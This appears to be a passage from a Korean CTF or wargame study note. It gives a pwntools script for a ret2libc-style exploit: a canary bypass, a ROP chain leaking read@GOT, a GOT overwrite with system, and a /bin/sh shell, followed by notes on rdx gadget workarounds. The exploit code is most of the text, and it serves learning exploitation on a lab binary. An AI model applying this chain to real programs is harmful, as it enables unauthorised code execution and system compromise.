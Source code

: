 ```
read_got = e.got['read']       # 여기서는 got 주소만 알 수 있고 got 주소 안의 내용은 알 수 없음
write_plt = e.plt['write']
read_system_offset = libc.symbols['read'] - libc.symbols['system'] # symbols는 offset과 같음

pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload += canary + b'a'*0x8
payload += p64(ret)            # movaps 때문에 stack을 0x10 단위로 맞추기 위해 삽입

# write(1, read_got, ...)

payload += p64(pop_rdi) + p64(0x1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(write_plt)

# read(0, read_got, ...)

payload += p64(pop_rdi) + p64(0x0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(read_plt)

# read('/bin/sh') == system('/bin/sh')

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)

read = p.recvn(8)
system = u64(read) - read_system_offset

# read = p.recv(6)
# system = u64(read + b'\x00\x00') - read_system_offset

p.send(p64(system) + b'/bin/sh\x00')
p.interactive()
```

## GOT Overwrite 및 "/bin/sh" 입력 과정 참고 설명

"/bin/sh"은 덮어쓸 GOT 엔트리의 바로 뒤 메모리 주소에 위치시키도록 GOT엔트리 뒤에 같이 입력하면 된다. 이 바이너리에서 입력을 위해 `read` 함수를 사용하는데, 해당 함수는 `rdi, rsi, rdx` 세 개의 인자를 사용한다.

앞의 두 인자는 `pop rdi; ret`과 `pop rsi; pop r15; ret` 가젯으로 쉽게 설정할 수 있지만, `pop rdx`와 관련된 가젯은 일반적인 바이너리에서 거의 찾기 힘들다. (`pop r15`는 `pop rsi`를 위해 어쩔 수 없이 붙어있는 가젯으로 `r15`에는 그냥 0을 대입하도록 세팅해줌)

이럴 때는 `libc`의 코드 가젯이나 `libc_csu_init` 가젯을 사용하여 문제를 해결할 수 있다. 또는 `rdx` 값을 변화시키기 위해 다른 함수를 간접적으로 호출해서 값을 설정할 수도 있는데,   
예를 들어 `strncmp` 함수는 `rax`로 비교의 결과를 반환하고, `rdx`로 두 문자열의 첫 번째 문자부터 가장 긴 부분 문자열의 길이를 반환한다. 여기에 간접적으로, `rdx`에 넣기 원하는 값을 대입해서 사용할 수도 있다.
